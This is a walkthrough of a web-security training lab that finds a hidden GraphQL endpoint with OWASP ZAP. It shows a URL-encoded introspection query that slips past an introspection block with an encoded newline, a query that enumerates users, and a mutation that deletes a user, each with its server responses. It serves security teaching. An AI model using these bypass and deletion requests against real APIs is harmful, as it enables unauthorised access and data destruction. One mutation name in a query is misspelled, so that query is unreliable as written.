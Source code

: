 # Lab: Finding a hidden GraphQL endpoint [OWASP Zed Attack Proxy]

> NOTE: We already know, that `GET /api` is the GraphQL endpoint for this lab, so we continue from there.

Right-click `GET /` request from __History__ tab and select "Open in Requester Tab", modify the first line of the request to `GET /api?query=query{__typename}` and hit send. Response body should be:

```json
{
  "data": {
    "__typename": "query"
  }
}
```

Now replace `query=query{__typename}` in the request path with the following introspection query:

```
query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

Notice that there is a `%0a`, a URL-encoded newline character after `__schema` to avoid disallowed introspection policies. Click "Send". The server responds with full introspection details. 

> After trying to get the ZAP's GraphQL add-on to work with this to no avail, I figured queries can be manually discerned from the result from introspections and then specific queries built from the data provided. Unfortunately it requires good command of GraphQL so I learned some of it.
> By the end of this I wrote a [primer](primer/README.md) for red teamers on how to use results of introspection to build queries (basically, what to look for and in what order). 
> And after that I figured, I know Python and now GraphQL, why don't I write something that performs introspection, discerns queries from the result of it, then builds them and gives me options to use with either `GET` or `POST` methods. So I [did](https://github.com/gremlin-0x/gql_viper).
> But I will continue this particular document with manual building of queries. 

Notice, that there is a `getUser` query that takes in argument `id` of `type` `Int` and returns `id` and `username` parameters. So we can build the following GraphQL query:

```graphql
query {
  getUser (id: 3) {
    id
    username
  }
}
```

Copy it and go to __Tools__ > __Encode/Decode/Hash...__ and URL encode this query. Paste it after `/api?query=` in the `GET` request. Notice how it returns user `carlos` in the response:

```json
{
  "data": {
    "getUser": {
      "id": 3,
      "username": "carlos"
    }
  }
}
```

Observe in the results of introspection, there is a mutation named `deleteOrganizationUser` that takes in `input` _object_ as an argument and returns _object_ `user`. 

```graphql
mutation {
  deleteOrganizaitonUser (input: { id: 3 }) {
    user {
      id
      username
    }
  }
}
```

Copy it and go to __Tools__ > __Encode/Decode/Hash...__ and URL encode this query. Paste it after `/api?query=` in the `GET` request. Notice, that it successfully deleted the user and solved the lab:

```json
{
  "data": {
    "deleteOrganizationUser": {
      "user": {
        "id": 3,
        "username": "carlos"
      }
    }
  }
}
```
